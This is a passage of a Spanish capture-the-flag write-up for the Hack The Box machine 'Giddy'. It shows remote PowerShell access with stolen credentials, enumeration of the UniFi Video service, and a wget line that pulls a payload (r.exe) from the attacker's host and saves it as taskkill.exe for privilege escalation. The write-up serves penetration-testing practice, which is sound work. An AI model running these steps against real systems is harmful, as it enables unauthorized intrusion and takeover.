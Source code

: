 Un poco mas de información al respecto puede ser consultado [aquí](https://blog.quickbreach.io/ps-remote-from-linux-to-windows/).

Comenzamos por descargar y ejecutar la instancia:

``` text
xbytemx@laptop:~/htb/giddy$ docker run -it quickbreach/powershell-ntlm
Unable to find image 'quickbreach/powershell-ntlm:latest' locally
latest: Pulling from quickbreach/powershell-ntlm
aeb7866da422: Pull complete
2011ef2c2dfb: Pull complete
43e50d384a14: Pull complete
9b8c213e2ea6: Pull complete
580adfdbbe6e: Pull complete
e6ec163021cb: Pull complete
Digest: sha256:81cb6748bbf055f65de83f62d91e924d9ff674b9a9223ad6e02c425db12b6a32
Status: Downloaded newer image for quickbreach/powershell-ntlm:latest
PowerShell 6.1.1

https://aka.ms/pscore6-docs
Type 'help' to get help.

PS />
```

Ahora generamos las credenciales y probaremos una conexión al servidor:

``` text
PS /> $creds = Get-Credential

PowerShell credential request
User: stacy
Password for user stacy: ************

PS /> Enter-PSSession -ComputerName 10.10.10.104 -Authentication Negotiate -Credential $creds
[10.10.10.104]: PS C:\Users\Stacy\Documents> ls


    Directory: C:\Users\Stacy\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/16/2019   1:04 AM                WindowsPowerShell
-a----        2/16/2019   1:07 AM             14 unifivideo

```

Boom, estamos adentro.

# user.txt

> type c:\Users\Stacy\Desktop\user.txt


[10.10.10.104]: PS C:\Users\Stacy> cd c:\programdata\unifi-video\
[10.10.10.104]: PS C:\programdata\unifi-video> dir
[10.10.10.104]: PS C:\programdata\unifi-video> cat .\data\system.properties
[10.10.10.104]: PS C:\programdata\unifi-video> Get-ChildItem -recurse HKLM:\SYSTEM\CurrentControlSet\Services | findstr -i "unifi"
[10.10.10.104]: PS C:\programdata\unifi-video>
[10.10.10.104]: PS C:\programdata\unifi-video> wget http://10.10.13.121:4001/r.exe -O taskkill.exe
[10.10.10.104]: PS C:\programdata\unifi-video> stop-service UniFiVideoService